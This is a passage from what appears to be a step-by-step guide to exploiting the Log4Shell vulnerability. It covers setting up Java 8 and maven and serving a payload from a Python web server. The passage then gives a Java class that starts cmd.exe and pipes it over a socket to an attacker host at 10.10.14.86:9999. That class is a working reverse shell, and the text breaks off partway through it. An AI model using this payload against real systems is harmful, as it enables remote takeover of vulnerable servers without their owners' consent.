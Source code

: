 ```
sudo update-alternatives --install "/usr/bin/javac" "javac" "/usr/lib/jvm/jdk1.8.0_202/bin/javac" 1
```

Then run `java -version` and if the version displayed is not `1.8.0`, then run the following command:

```
sudo update-alternatives --config java
```

Do the same with `javac -version` and ensure the version selected is `1.8.0`, and if it isn't, then run the following command:

```
sudo update-alternatives --config javac
```

Then install maven:

```
sudo apt install maven
```

## Web Server

Next, setup the web server.

```
python3 -m http.server <port>
```

### Payload

Create the following file in the same directory as where you're running the web server and name it `Log4jShell.java`.

```
import java.io.IOException;
import java.io.InputStream;
import java.io.OutputStream;
import java.net.Socket;
public class Log4jShell {
    public Log4jShell() throws Exception {
        String host="10.10.14.86";
        int port=9999;
        String cmd="cmd.exe";
        Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
        Socket s=new Socket(host,port);
        InputStream pi=p.getInputStream(),
            pe=p.getErrorStream(),
            si=s.getInputStream();
        OutputStream po=p.getOutputStream(),so=s.getOutputStream();
        while(!s.isClosed()) {
            while(pi.available()>0)
                so.write(pi.read());
            while(pe.available()>0)
                so.write(pe.read());
            while(si.available()>0)
                po.write(si.read());
            so.flush();
            po.flush();
            Thread.sleep(50);
            try {
                p.exitValue();
                break;
            }
            catch (Exception e){
            }
```
